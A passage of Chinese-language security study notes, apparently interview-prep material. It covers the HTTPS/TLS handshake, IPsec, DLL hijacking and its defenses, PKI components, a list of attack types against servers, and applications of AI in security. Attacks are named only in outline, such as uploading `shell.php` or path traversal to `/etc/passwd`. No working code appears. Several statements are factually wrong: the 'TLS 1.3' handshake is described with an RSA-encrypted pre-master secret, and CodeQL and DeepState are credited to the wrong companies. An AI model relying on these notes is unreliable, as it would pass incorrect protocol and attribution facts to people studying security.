2. **服务器返回证书**：服务器将数字证书（包含公钥）发送给客户端。
3. **客户端验证证书**：浏览器检查证书的有效性（如是否过期、是否由可信 CA 签发）。
4. **协商加密算法**：客户端和服务器协商使用的加密算法和密钥。
5. **加密通信**：双方使用协商好的密钥加密数据并传输。

#### **TLS 握手阶段（以 TLS 1.3 为例）**

1. **客户端发起请求**
   - 客户端发送 `ClientHello` 消息，包含支持的 TLS 版本、加密套件（如 AES-GCM、ECDHE-ECDSA）、随机数（`Client Random`）等。
2. **服务器响应证书**
   - 服务器返回 `ServerHello`，确认使用的 TLS 版本和加密套件，发送服务器证书（含公钥），以及第二个随机数（`Server Random`）。
3. **客户端验证证书**
   - 客户端通过 **CA 证书链** 验证服务器证书的合法性（检查颁发机构、有效期、是否吊销等）。若证书可信，继续下一步。
4. **生成会话密钥**
   - 客户端生成 **预主密钥（Pre-Master Secret）**，用服务器公钥加密后发送给服务器。
   - 双方根据三个随机数（Client Random + Server Random + Pre-Master Secret）生成 **会话密钥（Master Secret）**。
5. **协商加密套件**
   - 客户端和服务器通过加密套件（如 AES-256-GCM）建立对称加密通道，用于后续数据传输。

### **常见误解**

- **HTTPS 完全安全**：HTTPS 仅保护传输层安全，服务器端的数据存储或应用层漏洞（如 SQL 注入）仍需额外防护。
- **证书仅用于加密**：证书的核心作用是验证服务器身份，加密是附加功能。

# IPsec（Internet Protocol Security）

### **一、IPsec 的核心功能与架构**

1. **四大核心目标**
   - **机密性**：通过加密算法（如 AES、3DES）保护数据内容。
   - **完整性**：使用哈希和消息认证码（如 SHA-256、HMAC）检测数据篡改。
   - **认证性**：验证通信双方身份（基于 PKI 或预共享密钥）。
   - **抗重放攻击**：通过序列号和时间戳防止重复数据包注入。
2. **协议栈位置**
   - 工作于 OSI 模型的**网络层（IP 层）**，为上层协议（如 TCP、UDP）提供透明安全保护。

### **二、核心协议与组件**

1. **AH（认证头，Authentication Header）**
   - 提供数据完整性和数据源认证，但不加密载荷。
   - 支持协议：IP 协议号 51。
2. **ESP（封装安全载荷，Encapsulating Security Payload）**
   - 提供加密、完整性和认证（可选），是 IPsec 的主流协议。
   - 支持协议：IP 协议号 50。
3. **SA（安全关联，Security Association）**
   - 单向逻辑连接，定义加密算法、密钥、SA 有效期等参数。
   - 每个通信方向需独立 SA，双向通信需两个 SA（入站和出站）。
4. **IKE（互联网密钥交换，Internet Key Exchange）**
   - 负责协商 SA 参数并管理密钥，分为 IKEv1 和 IKEv2：
     - **IKEv1**：两阶段协商（主模式 / 野蛮模式 + 快速模式），安全性较低。
     - **IKEv2**：单阶段协商，支持更高效的密钥更新和错误处理。

### **三、IPsec 工作模式**

1. **传输模式（Transport Mode）**
   - **适用场景**：主机到主机的端到端通信（如 VPN 客户端到服务器）。
   - **处理方式**：仅加密 / 认证 IP 载荷（TCP/UDP 数据），IP 头保持不变。
2. **隧道模式（Tunnel Mode）**
   - **适用场景**：网络到网络的通信（如站点到站点 VPN）。
   - **处理方式**：封装整个原始 IP 数据包，添加新 IP 头用于路由。
   - **示例**：原始数据包（源 A→目的 B）被封装为（源网关 X→目的网关 Y）。

### **四、IPsec 握手流程（以 IKEv2 为例）**

1. **初始交换（Initial Exchange）**
   - **IKE_SA_INIT**：协商加密算法、DH 组（用于密钥交换）、随机数等。
   - **IKE_AUTH**：验证双方身份（使用数字证书或预共享密钥），生成会话密钥。
2. **创建 IPsec SA**
   - 协商 AH/ESP 参数（如加密算法、SA 生存时间），建立数据传输通道。
3. **密钥更新**
   - IKEv2 支持自动密钥更新（如每 8 小时或达到流量阈值时）。

### **五、加密算法与密钥管理**

1. **加密套件组合**
   - **密钥交换**：DH（Diffie-Hellman）、RSA。
   - **对称加密**：AES-256-CBC、ChaCha20-Poly1305。
   - **哈希与 MAC**：SHA-384、GMAC（基于 AES 的认证加密）。
2. **前向保密（PFS）**
   - 每次 SA 协商生成新的临时密钥，避免长期密钥泄露影响历史通信。

### **六、典型应用场景**

1. **VPN（虚拟专用网络）**
   - **站点到站点 VPN**：通过隧道模式连接企业分支网络。
   - **远程访问 VPN**：员工通过客户端软件接入企业内网。
2. **IPsec over GRE**
   - 结合 GRE（通用路由封装）协议，支持非 IP 协议（如 IPX）的加密传输。
3. **移动设备安全**
   - 保护智能手机、笔记本电脑与企业服务器的通信（如 iOS/Android 内置 IPsec 客户端）。
4. **工业控制系统（ICS）**
   - 加密 SCADA 设备与控制中心的数据交互，抵御 APT 攻击。

| 协议  | 层次   | 典型应用      | 优势                            | 局限性               |
| ----- | ------ | ------------- | ------------------------------- | -------------------- |
| IPsec | 网络层 | VPN、企业互联 | 透明保护所有上层协议            | 配置复杂，性能开销大 |
| TLS   | 传输层 | HTTPS、邮件   | 轻量级，支持客户端 / 服务器认证 | 仅保护特定应用层协议 |

# DLL 劫持原理

当程序运行时，系统会按照以下顺序搜索所需的 DLL 文件（以 Windows 为例）（**动态链接中的操作**）：

1. **程序所在目录**（优先加载）
2. **当前目录**（运行程序时的工作目录）
3. **系统目录**（如 `C:\Windows\System32`）
4. **环境变量 `PATH` 指定的目录**
5. **默认 DLL 缓存目录**

攻击者通过将恶意 DLL 放置在程序优先搜索的目录（如程序目录或当前目录）中，迫使程序加载恶意 DLL 而非合法文件。

### **防御方法**

1. **限制 DLL 搜索路径：**程序中显式指定 DLL 的绝对路径，避免依赖搜索顺序。
2. **权限控制：**对程序目录和系统目录设置严格的权限（如禁止普通用户写入）。
3. **数字签名校验：**检查 DLL 的数字签名，确保其来源合法。
4. **安全软件防护：**使用杀毒软件或 EDR（端点检测响应）工具监控 DLL 加载行为。
5. **系统策略配置：**在 Windows 中启用 **`DLL目录策略`**（组策略 → 计算机配置 → 管理模板 → Windows 组件 → 应用程序兼容性 → 防止从可移动驱动器加载 DLL）。

# PKI（Public Key Infrastructure，公钥基础设施）



### 主要组件

#### 1. 证书颁发机构（CA，Certificate Authority）

- **功能**：是 PKI 的核心，负责验证申请者的身份，为其颁发数字证书，并对证书进行管理。CA 使用自己的私钥对数字证书进行签名，以确保证书的真实性和完整性。
- **示例**：全球知名的 CA 机构如 DigiCert、Symantec（现名 DigiCert）等，它们为众多网站颁发 SSL/TLS 证书，保证网站与用户之间的通信安全。

#### 2. 注册机构（RA，Registration Authority）

- **功能**：作为 CA 的延伸，负责接收用户的证书申请，对用户的身份进行初步验证，然后将验证通过的申请信息转发给 CA。RA 可以减轻 CA 的负担，提高证书颁发的效率。
- **示例**：在一些大型企业内部的 PKI 系统中，可能会设置多个 RA，负责不同部门或区域的用户证书申请审核。

#### 3. 证书库

- **功能**：是存储数字证书的数据库，用户可以通过证书库查询和获取其他用户或实体的数字证书。证书库通常采用分布式结构，以提高访问效率和可靠性。
- **示例**：许多 CA 机构提供在线证书库，用户可以通过浏览器访问这些证书库，验证网站的 SSL/TLS 证书的有效性。

#### 4. 证书撤销列表（CRL，Certificate Revocation List）

- **功能**：是 CA 定期发布的一份列表，列出了已经被撤销的数字证书的序列号。当用户验证某个证书时，需要检查该证书是否在 CRL 中，如果在，则说明该证书已被撤销，不能再使用。
- **示例**：如果一个用户的私钥泄露，CA 会将该用户的证书列入 CRL，以防止攻击者使用该证书进行非法活动。

#### 5. 在线证书状态协议（OCSP，Online Certificate Status Protocol）

- **功能**：是一种实时查询证书状态的协议，用户可以通过向 OCSP 服务器发送请求，获取某个证书的最新状态（有效、撤销或未知）。与 CRL 相比，OCSP 可以提供更及时的证书状态信息。
- **示例**：现代浏览器在访问 HTTPS 网站时，通常会使用 OCSP 协议实时验证网站证书的有效性。

### 工作流程

#### 1. 证书申请

- 用户向 RA 或 CA 提交证书申请，提供自己的身份信息和公钥。
- RA 对用户的身份进行初步验证，验证通过后将申请信息转发给 CA。

#### 2. 证书颁发

- CA 对用户的身份进行进一步验证，验证通过后，使用自己的私钥对用户的公钥和身份信息进行签名，生成数字证书。
- CA 将数字证书颁发给用户，用户可以将证书安装到自己的设备或系统中。

#### 3. 证书使用

- 当用户与其他实体进行通信时，会向对方发送自己的数字证书。
- 对方收到证书后，使用 CA 的公钥验证证书的签名，以确认证书的真实性和完整性。
- 验证通过后，对方可以使用证书中的公钥与用户进行安全通信。

#### 4. 证书撤销

- 如果用户的私钥泄露、身份信息变更或其他原因需要撤销证书，用户可以向 CA 申请撤销证书。
- CA 收到撤销申请后，将该证书的序列号列入 CRL，并定期更新 CRL。

### 应用场景

- **HTTPS 网站**：网站使用 SSL/TLS 证书（基于 PKI）来加密与用户浏览器之间的通信，确保数据传输的安全性和完整性。例如，我们在访问银行、电商等网站时，浏览器地址栏会显示锁图标，表示该网站使用了 HTTPS 协议和 PKI 技术。
- **电子邮件安全**：使用数字证书对电子邮件进行加密和签名，确保邮件内容的保密性和不可否认性。例如，一些企业内部的邮件系统会使用 PKI 技术来保护员工之间的邮件通信安全。
- **VPN（虚拟专用网络）**：在 VPN 连接中，使用 PKI 技术对用户和服务器进行身份认证，确保只有合法的用户可以访问企业内部网络。
- **电子签名**：在电子合同、电子政务等领域，使用 PKI 技术实现电子签名，确保签名的真实性和不可否认性

# 针对服务器发起的攻击有哪些？

### **一、网络层攻击**

1. **DDoS 攻击（分布式拒绝服务）**
   - **原理**：通过大量伪造请求占用服务器带宽或资源，导致正常用户无法访问。
   - **危害**：服务中断、业务瘫痪。
   - **示例**：利用僵尸网络（如 Mirai）发起 SYN Flood 攻击。
2. **端口扫描与服务枚举**
   - **原理**：探测开放端口和服务，识别潜在漏洞（如 SSH 弱密码、未更新的 Web 服务）。
   - **危害**：为后续攻击提供信息支持。
   - **工具**：Nmap、Masscan。

### **二、应用层攻击**

1. **SQL 注入**
   - **原理**：向输入框注入恶意 SQL 代码，绕过认证或窃取数据。
   - **危害**：数据库泄露、数据篡改。
2. **跨站脚本攻击（XSS）**
   - **原理**：在网页中注入恶意脚本，窃取用户会话或执行任意操作。
   - **危害**：用户隐私泄露、服务器被间接控制。
3. **文件上传漏洞**
   - **原理**：允许上传恶意文件（如 PHP 木马），获取服务器权限。
   - **示例**：上传`shell.php`并通过 Web 服务执行系统命令。
4. **目录遍历攻击**
   - **原理**：利用路径遍历漏洞访问受限目录（如`/etc/passwd`）。
   - **危害**：敏感文件泄露、配置信息窃取。

### **三、权限与认证攻击**

1. **暴力破解**
   - **原理**：通过字典或穷举法猜测用户名 / 密码。
   - **目标**：SSH、FTP、数据库等认证接口。
   - **防御**：限制登录尝试次数、使用强密码策略。
2. **会话劫持**
   - **原理**：窃取用户会话令牌（如 Cookie），伪装成合法用户。
   - **手段**：中间人攻击（MITM）、XSS 漏洞。
3. **权限提升（Privilege Escalation）**
   - **原理**：利用系统漏洞将普通用户权限提升至管理员。
   - **示例**：Linux 内核漏洞（如 Dirty COW）。

### **四、数据窃取与破坏**

1. **勒索软件攻击**
   - **原理**：加密服务器文件并索要赎金。
   - **传播途径**：钓鱼邮件、远程桌面弱密码。
2. **敏感数据泄露**
   - **途径**：数据库漏洞、未加密的日志文件、社工攻击。
   - **案例**：2021 年某云服务器因配置错误导致用户数据暴露。
3. **恶意代码植入**
   - **形式**：后门程序、Rootkit（隐藏进程）、加密矿工。
   - **目标**：长期控制服务器或利用资源挖矿。

### **五、其他攻击方式**

1. **零日漏洞攻击**
   - **特点**：利用未公开的漏洞（如 Log4j 漏洞），防御难度极高。
2. **物理攻击**
   - **手段**：直接接触服务器硬件（如篡改 BIOS、窃取存储设备）。
   - **场景**：数据中心安全防护不足时可能发生。

# **Web 服务器被入侵后，怎样进行排查？**

- 查看下 web 服务器日志
- 看看有没有异常端口开放
- 使用安全狗等服务器安全软件清扫

# AI如何应用在安全领域

#### **一、入侵检测与防御（IDS/IPS）**

- **技术实现**
  - 使用**监督学习**（如随机森林、SVM）训练模型，识别已知攻击模式（如 SQL 注入、DDoS）。
  - **无监督学习**（如孤立森林、自编码器）检测异常流量或行为，发现未知攻击。
  - 案例：
    - CICIDS 数据集用于训练模型识别网络流量中的恶意行为。
    - 深度学习模型（如 LSTM、CNN）分析网络流量的时间序列特征。
- **优势**
  实时处理海量数据，动态更新检测规则，突破传统基于特征库的检测局限性。

#### **二、恶意软件分析与检测**

- **技术实现**
  - **静态分析**：通过 CNN/RNN 分析二进制文件的字节序列或 PE 文件结构，识别恶意代码特征。
  - **动态分析**：利用强化学习模拟程序行为，检测沙箱中的异常操作（如注册表修改、敏感文件访问）。
  - **案例：**
    - Google 使用深度学习模型 **Deep Neural Network (DNN)** 检测 Android 恶意应用。
    - 开源工具**Malware AI**通过 LSTM 分类恶意软件家族。
- **挑战**
  对抗样本攻击（如修改恶意代码的微小字节以绕过检测）需结合对抗训练（Adversarial Training）。

#### **三、用户行为分析（UEBA）**

- **技术实现**
  - 构建用户行为基线：通过**聚类算法**（如 K-means）或**时间序列模型**（如 Prophet）学习正常行为模式。
  - 检测异常行为：例如，异常登录时间、数据访问权限的突变。
  - **案例：**
    - 金融机构使用 **变分自编码器（VAE）** 检测内部人员的欺诈行为。
    - Splunk 的**User Behavior Analytics**集成机器学习模块。
- **优势**
  发现隐蔽的内部威胁和账户劫持，降低误报率。

#### **四、漏洞挖掘与修复**

- **技术实现**
  - **漏洞扫描**：使用 NLP 处理 CVE 漏洞报告，生成结构化数据供模型学习。
  - **自动化漏洞利用生成**：强化学习训练智能体（Agent）模拟攻击过程，发现未知漏洞（如 CTF 比赛中的 AI 选手）。
  - **案例：**
    - Facebook 的**CodeQL**使用代码分析 + 机器学习检测代码漏洞。
    - 微软的**DeepState**通过模糊测试（Fuzzing）结合深度学习发现软件漏洞。
- **未来方向**
  AI 生成补丁代码（如 GitHub Copilot 在安全修复中的应用）。

#### **五、加密与密钥管理**

- **技术实现**
  - **量子加密**：机器学习预测量子计算机对现有加密算法的威胁，推动后量子密码学发展。
  - **密钥生成优化**：强化学习生成更安全的随机密钥，降低弱密钥风险。
  - 案例：
    - 研究团队使用 GAN 生成抗量子攻击的椭圆曲线参数。
- **挑战**
  平衡安全性与计算效率，避免 AI 生成的密钥存在后门。

#### **六、安全自动化响应（SOAR）**

- **技术实现**
  - 将 AI 模型嵌入 SOAR 平台，自动分类事件优先级并触发响应策略（如隔离受感染主机）。
  - **案例：**
    - Palo Alto Networks 的**Cortex XDR**结合 AI 分析日志，自动阻断威胁。
- **优势**
  缩短响应时间（MTTR），减少人工干预成本。

#### **七、生物识别增强**

- **技术实现**
  - 深度学习改进人脸识别（如 FaceNet）、虹膜识别、语音识别的抗伪造能力。
  - **活体检测**：使用 3D CNN 或多模态融合技术区分真实人脸与照片 / 视频。
  - **案例：**
    - Apple Face ID 通过神经引擎优化活体检测。

#### **八、AI 面临的安全挑战**

1. **对抗性攻击**
   - 攻击者通过修改输入数据（如恶意样本添加噪声）误导 AI 模型。
   - **防御**：对抗训练（Adversarial Training）、模型蒸馏（Model Distillation）。
2. **数据隐私**
   - 训练数据可能包含敏感信息（如用户行为日志）。
   - **解决方案**：联邦学习（Federated Learning）、差分隐私（Differential Privacy）。
3. **模型可解释性**
   - 黑箱模型难以解释决策逻辑，影响安全审计。
   - **研究方向**：可解释 AI（XAI）技术（如 SHAP 值、LIME）。

#### **九、未来趋势**

1. **边缘计算与 AI 结合**
   在物联网设备本地部署轻量级模型（如 TinyML），实时检测异常行为。
2. **AI 攻防博弈**
   攻防双方利用 AI 技术对抗，推动安全技术螺旋式升级。
3. **多模态数据融合**
   结合日志、流量、用户行为等多维度数据提升检测准确率。